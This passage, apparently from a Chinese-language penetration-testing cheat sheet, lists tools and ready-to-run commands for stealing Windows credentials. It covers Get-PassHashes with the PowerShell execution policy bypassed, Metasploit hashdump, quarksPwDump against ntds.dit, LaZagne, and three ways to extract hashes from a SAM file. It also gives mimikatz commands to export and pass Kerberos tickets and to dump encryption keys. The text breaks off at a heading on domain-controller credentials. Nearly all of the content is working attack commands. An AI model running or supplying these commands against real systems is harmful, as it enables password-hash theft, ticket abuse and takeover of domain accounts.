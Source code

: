 |       | Get-PassHashes.PS1 | 在线 | powershell -exec bypass<br/>Import-Module .\Get-PassHashes.PS1<br/>Get-PassHashes |
|       | metasploit         | 在线 | run  hashdump                                                |
|       | metasploit         | 在线 | hashdump                                                     |
|       | metasploit         | 在线 | post/windows/gather/credentials/domain_hashdump(获取域hash)  |
|       | quarksPwDump       | 在线 | quarksPwDump.exe –dhl -o hash.txt<br/>QuarksPwDump.exe --dump-hash-domain --output SecPulseHash.txt --ntds-file c:\ntds.dit |
|       | LaZagne            | 在线 | lazagne.exe all                                              |
|       | pwdump             | 在线 | pwdump                                                       |

如果是导出SAM文件到本地，有多种方式能将哈希读出来：

**方法一** 

```cmd
mimikatz "lsadump::sam /sam:SAM /system:SYSTEM" "exit"
```

![2021-07-09_165916](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_165916.jpg)

**方法二**

```cmd
GetHashes.exe SAM
```

![2021-07-09_170427](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_170427.jpg)

**方法三**

```shell
samdump2 system sam
```

![2021-07-09_165727](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_165727.jpg)

### 1.3 票据

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
mimikatz.exe "kerberos::ptt "[0;34c63]-2-0-60a10000-ailx00@krbtgt-HACKBIJI.TOP.kirbi"
```



### 1.4 密钥

#可用于PTK

```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::ekeys" "exit"
```

### 1.5 域控上的凭据收集

